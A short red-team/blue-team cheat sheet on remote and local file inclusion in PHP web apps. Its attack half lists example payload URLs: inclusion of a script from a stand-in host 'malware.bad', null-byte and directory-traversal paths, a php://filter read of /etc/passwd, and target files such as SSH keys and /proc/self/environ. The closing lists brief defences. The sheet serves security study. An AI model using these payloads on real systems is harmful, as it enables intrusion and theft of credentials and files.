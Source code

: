 # RedTeam

## Remote File Inclusion

*--> Attacker uploads file from external source*

1. Inject remote file from own server
    - https://example.com/login.php?user=http://malware.bad/malicious.php
2. Inject malicious script
   - https://example.com/login.php?user=malicious.php

## Local File Inclusion

*--> Attacker retrieves file that already exists on hosting server*

#### Tips

1. Null Byte Attack
   - https://example.com/login.php?user=../../Windows/system32/cmd.exe%00
   - %00 terminates string to avoid adherence of specific extension (e.g. .php)
2. Base64 encoded
   - ?user=php://filter/read=convert.base64-encode/resource=/etc/passwd
   - Decode the response to get target output
3. Fuzzing via Burpsuite Intruder (Directory Traversal)
4. LFI Suite:
   - [https://github.com/D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite)

#### Files to check while enumerating LFI
- `../../../../../../../etc/passwd`
- `../../../../../../../home/<users>/.ssh/authorized_keys`
- `../../../../../../../home/<users>/.ssh/bash_history`
- To get the username of who we’re running as: `../../../../../../../proc/self/environ`
- To see what binary is running this service: `../../../../../../../proc/self/cmdline`

<br />

# BlueTeam

## Best Practice
- Input Validation (Whitelisting allowed file extensions)
- Exclude the directory separators “/” 
- Patch php version regularly
